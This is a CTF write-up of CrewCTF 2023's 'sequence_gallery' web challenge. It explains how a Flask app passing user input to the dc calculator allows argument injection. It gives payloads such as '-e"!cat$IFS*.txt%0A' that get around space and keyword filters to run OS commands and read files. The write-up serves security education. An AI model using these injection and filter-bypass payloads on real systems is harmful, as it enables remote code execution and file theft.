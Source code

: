 # sequence_gallery

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Conclusion](#conclusion)

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

- Do you like sequences?

Author : Satoooon

[http://sequence-gallery.chal.crewc.tf:8080/](http://sequence-gallery.chal.crewc.tf:8080/)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708134050.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708145108.png)

**In here, we can click the "View" button to see the output of each functions:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708145125.png)

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/Web/sequence_gallery/sequence_gallery.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|14:51:57(HKT)]
└> unzip sequence_gallery.zip 
Archive:  sequence_gallery.zip
   creating: dist/
   creating: dist/src/
  inflating: dist/src/factorial.dc   
  inflating: dist/src/fibonacchi.dc  
  inflating: dist/src/flag.txt       
  inflating: dist/src/main.py        
  inflating: dist/src/power.dc       
   creating: dist/src/templates/
  inflating: dist/src/templates/index.html  
```

**In `dist/src/main.py`, we can see the web application logic:**
```python
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)
```

In route `/`, when the `sequence` GET parameter is given, it'll strip out all rest of the path and ONLY extract the filename. Then, it'll append `.dc` to the filename. For example, parameter value `power` will become `power.dc`.

Moreover, if the `sequence` GET parameter's value contains ` ` or `flag`, it'll return `:(`.

After that, it'll use `subprocess.run()` method to execute a Linux command called `dc`, and with the `sequence` GET parameter's value as the ***argument***. Notice that the `Shell` argument is not provided, which means **we can't inject OS command**. (Or is it :D)

Finally, use `render_template()` to render the `output` of the `dc` command. (`render_template()` is not vulnerable to Server-Side Template Injection (SSTI))

## Exploitation

Now, in `subprocess.run()` method it doesn't have `Shell=True`, however it doesn't mean it's not vulnerable.

Our `sequence` GET parameter's value is being parsed as an argument in the `dc` command, thus it's ***vulnerable argument injection***:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150122.png)

Nice! We can now confirm it's vulnerable to argument injection.

Hmm... I wonder what's `dc` in Linux...

**Let's install and view it's `man` page:**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:45(HKT)]
└> sudo apt install dc
[...]
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:47(HKT)]
└> man dc
[...]
DESCRIPTION
       dc  is  a  reverse-polish  desk calculator which supports unlimited precision arithmetic.  It
       also allows you to define and call macros.  Normally dc reads from the standard input; if any
       command arguments are given to it, they are filenames, and dc reads and executes the contents
       of the files before reading from standard input.  All normal output is  to  standard  output;
       all error output is to standard error.

       A  reverse-polish  calculator  stores numbers on a stack.  Entering a number pushes it on the
       stack.  Arithmetic operations pop arguments off the stack and push the results.

       To enter a number in dc, type the digits (using upper case letters A through  F  as  "digits"
       when working with input bases greater than ten), with an optional decimal point.  Exponential
       notation is not supported.  To enter a negative number, begin the number with  ``_''.   ``-''
       cannot  be  used  for this, as it is a binary operator for subtraction instead.  To enter two
       numbers in succession, separate them with spaces or newlines.  These have no meaning as  com‐
       mands.
[...]
```

With that said, it's basically a *calculator*.

**However, when I was reading the `man` page, I found this:**
```shell
[...]
Miscellaneous
       !      Will run the rest of the line as a system command.  Note that parsing of the  !<,  !=,
              and  !>  commands take precedence, so if you want to run a command starting with <, =,
              or > you will need to add a space after the !.
[...]
```

Wow! So we can execute OS command? Cool!

**Let's try the following payload:**
```shell
-e !id
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150507.png)

Uhh... I forgot the ` ` filter.

**In order to bypass the ` ` filter, we can try to replace ` ` with anything else:**
```shell
-e"!id
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150638.png)

We bypassed the filter! However, the `id` command still didn't execute...

**This is because our `id` command hasn't pressed the Enter key, or the new line character `\n` (`%0a` in URL encoding):**
```
-e"!id%0a
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150815.png)

Nice! We can now execute arbitrary OS commands! 

**Let's get the flag!**
```
-e"!cat flag.txt%0A
```

Uh... Wait, the filters!

This time, since the ` ` is executed on the system, we need to find other bypasses.

Based on my experience, some Bash jail CTF challenges have banned ` ` the character.

In Bash, **we can use the `$IFS` special shell variable**. The `$IFS` (Internal Field Separator) is used by the shell to determine how to do word splitting, the default value for `$IFS` consists of whitespace characters.

Next, we need to bypass the `flag` filter.

To do so, we can use the `*` wildcard character, which will then read all the files in the current working directory.

**Hence, the final payload will be:**
```shell
-e"!cat$IFS*.txt%0A
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708151601.png)

- **Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`**

```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:18:28(HKT)]
└> dc         
10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx
DoULikeDC?
```

- Real flag (?) : `crew{DoULikeDC?}`

## Conclusion

What we've learned:

1. Remote Code Execution Via Argument Injection With `dc` Command
